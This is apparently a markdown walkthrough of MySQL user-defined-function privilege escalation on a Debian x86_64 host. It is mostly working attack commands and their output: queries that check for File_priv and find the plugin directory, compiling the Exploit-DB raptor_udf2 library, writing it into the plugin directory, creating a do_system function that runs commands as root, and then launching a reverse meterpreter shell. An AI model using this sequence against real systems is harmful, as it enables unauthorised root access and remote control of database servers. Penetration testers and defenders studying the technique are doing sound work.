 # MySQL User Defined Function Exploitation
## Exploit Enumeration
This exploit is used for privilege escalation and requires `File_priv` access fo rthe current user. To check this, try,
```
mysql> select File_priv from mysql.user where user = substring_index(user(), '@', 1) ;
+-----------+
| File_priv |
+-----------+
| Y         |
| Y         |
| Y         |
| Y         |
+-----------+
4 rows in set (0.00 sec)
```
As you can see, I have the permission denoted as 'Y'. 

Next, we need to see the MySQL services host OS and compiled variable names with the following two SQL queries,
```
mysql> select @@version_compile_os, @@version_compile_machine;select @@version_compile_os, @@version_compile_machine;
+----------------------+---------------------------+
| @@version_compile_os | @@version_compile_machine |
+----------------------+---------------------------+
| debian-linux-gnu     | x86_64                    |
+----------------------+---------------------------+
1 row in set (0.00 sec)

mysql> show variables like '%compile%';show variables like '%compile%';

+-------------------------+------------------+
| Variable_name           | Value            |
+-------------------------+------------------+
| version_compile_machine | x86_64           |
| version_compile_os      | debian-linux-gnu |
+-------------------------+------------------+
2 rows in set (0.00 sec)
```
Now we need to find the plugin directory with the following SQL query,
```
mysql> select @@plugindir;
+------------------------+
| @@plugin_dir           |
+------------------------+
| /usr/lib/mysql/plugin/ |
+------------------------+
1 row in set (0.00 sec)
```
Now, we know that the plugin must be located in `/usr/lib/mysql/plugin/`. This directory will most likely only be accessible (writeable at least) by root. What our goal is to use MySQL functions to write to this directory. Well, we know that we are using a 64bit version of MySQL from the output above, `x86_64`. This means we can obtain one online and hope that it is valid (and safe) OR simply comile our own as so,

## MySQL UDF Exploit (Exploit-DB)
We will be using this exploit "MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)" from [Exploit-DB.com](https://www.exploit-db.com/exploits/1518). Download the exploit to the `/tmp` or some other writeable directory, and compile it with,
```
user@target:/tmp$ gcc -g -c raptor_udf2.c -fPIC
```
This will create `raptor_udf2.o` which we will now use to compile the plugin as so,
```
user@target:/tmp$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
Now, we should have the file `raptor_udf2.so`. Let's use it with the MySQL monitor shell to exploit the damn thing.
```
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/tmp/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
mysql> select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');
mysql> \! sh
sh-2.05b$ cat /tmp/out
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)
```
So, now, we can upload a reverse meterpreter shell, made with MSFVenom, to the target system into `/tmp`, named LinRevMet555, and execute it as root with,
```
mysql> select do_system('/tmp/LinRevMet5555');
```
And get a shell as root.
